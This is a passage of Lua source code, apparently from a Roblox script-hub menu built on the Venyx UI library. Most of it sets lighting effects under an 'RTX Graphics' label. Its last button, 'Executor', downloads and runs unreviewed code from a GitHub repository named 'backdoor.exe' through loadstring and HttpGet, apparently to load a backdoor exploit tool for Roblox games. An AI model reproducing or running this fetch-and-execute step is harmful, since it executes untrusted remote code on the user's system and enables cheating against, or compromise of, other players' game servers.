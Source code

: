 local e = Instance.new("ColorCorrectionEffect", a)
e.Brightness = 0
e.Contrast = -0.07
e.Saturation = 0
e.Enabled = true
e.TintColor = Color3.fromRGB(255, 247, 239)
local e2 = Instance.new("ColorCorrectionEffect", a)
e2.Brightness = 0.2
e2.Contrast = 0.45
e2.Saturation = -0.1
e2.Enabled = true
e2.TintColor = Color3.fromRGB(255, 255, 255)
local s = Instance.new("SunRaysEffect", a)
s.Enabled = true
s.Intensity = 0.01
s.Spread = 0.146

print("RTX Graphics loaded! Created by BrickoIcko")

end)

section2:addButton("Executor⬅️", function()
loadstring(game:HttpGet("https://raw.githubusercontent.com/iK4oS/backdoor.exe/master/source.lua"))()
end)
venyx:SelectPage(venyx.pages[1], true) 
